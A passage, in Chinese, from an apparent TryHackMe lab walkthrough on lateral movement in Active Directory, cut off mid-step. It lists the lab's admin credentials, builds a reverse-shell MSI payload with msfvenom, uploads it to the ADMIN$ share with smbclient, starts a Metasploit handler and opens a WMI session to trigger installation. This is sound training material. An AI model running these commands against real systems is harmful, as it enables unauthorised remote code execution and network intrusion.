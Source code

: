 获取凭据后，通过 SSH 连接到 THMJMP2：

```shell
ssh za\\<AD Username>@thmjmp2.za.tryhackme.com
```

针对此练习，我们将假设我们已经获取了具有管理员访问权限的一些凭据：

- User: ZA.TRYHACKME.COM\t1_corine.waters
- Password: Korine.1994

我们将展示如何使用这些凭据通过 WMI 和 MSI 包进行横向移动到 THM-IIS。随时可以尝试本任务中呈现的其他方法。

首先，我们将从攻击者的机器上使用 msfvenom 创建我们的 MSI 载荷：

:::tip

因为你将与他人共享实验室，为避免覆盖其他人的载荷，请使用与 `myinstaller.msi` 不同的文件名。

:::

```shell title="AttackBox"
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstaller.msi
```

然后，我们使用 SMB 或其他可用的方法复制载荷：

```shell title="AttackBox"
user@AttackBox$ smbclient -c 'put myinstaller.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
 putting file myinstaller.msi as \myinstaller.msi (0.0 kb/s) (average 0.0 kb/s)
```

因为我们将载荷复制到了 ADMIN$ 共享文件夹，所以它会出现在服务器的 `C:\Windows\` 路径下。

我们启动一个处理程序以接收来自 Metasploit 的反向 shell：

```shell title="AttackBox"
msf6 exploit(multi/handler) > set LPORT 4445
msf6 exploit(multi/handler) > set payload windows/x64/shell_reverse_tcp
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.10.16:4445
```

让我们从 Powershell 控制台开始对 THMIIS 建立一个 WMI 会话：

```powershell title="THMJMP2: Powershell"
PS C:\> $username = 't1_corine.waters';
PS C:\> $password = 'Korine.1994';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
PS C:\> $Opt = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

然后，我们调用 Win32_Product 类的 Install 方法来触发有效载荷：

